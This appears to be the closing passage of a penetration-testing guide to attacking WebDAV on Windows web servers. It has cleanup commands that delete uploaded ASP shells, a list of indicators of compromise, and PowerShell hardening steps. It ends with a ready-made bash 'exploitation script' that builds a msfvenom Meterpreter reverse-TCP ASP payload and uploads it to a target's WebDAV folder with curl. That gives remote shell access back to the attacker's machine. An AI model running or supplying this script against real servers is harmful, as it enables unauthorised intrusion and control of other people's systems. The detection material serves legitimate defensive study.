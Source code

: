 ```bash
# Remove uploaded files via cadaver
cadaver http://<target_ip>/webdav/
delete shell.asp
delete document_update.asp
quit

# Remove via curl
curl -X DELETE -u <username>:<password> http://<target_ip>/webdav/shell.asp
```

## Detection and Prevention

### Indicators of Compromise

- Unusual ASP file uploads to WebDAV directories
- Unexpected PROPFIND or PUT requests in logs
- Web shell signatures in web server access logs
- New user accounts created via web interfaces

### Hardening Recommendations

```powershell
# Disable WebDAV if not required
Uninstall-WindowsFeature Web-DAV-Publishing

# Restrict WebDAV to specific directories
# Implement strong authentication requirements
# Regular audit of WebDAV directory contents
# Implement file upload filtering
```

## Automated Exploitation Script

```bash
#!/bin/bash
# webdav_exploit.sh
TARGET=$1
USER=$2
PASS=$3

echo "[*] Starting WebDAV exploitation against $TARGET"

# Generate payload
echo "[*] Generating meterpreter payload"
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$(hostname -I | awk '{print $1}') LPORT=4444 -f asp > /tmp/shell.asp

# Upload payload
echo "[*] Uploading payload to WebDAV"
curl -X PUT -u "$USER:$PASS" "http://$TARGET/webdav/document_update.asp" --data-binary @/tmp/shell.asp

# Verify upload
echo "[*] Verifying upload"
response=$(curl -s -o /dev/null -w "%{http_code}" -u "$USER:$PASS" "http://$TARGET/webdav/document_update.asp")
if [ "$response" -eq 200 ]; then
    echo "[+] Payload uploaded successfully"
else
    echo "[-] Upload failed"
    exit 1
fi

```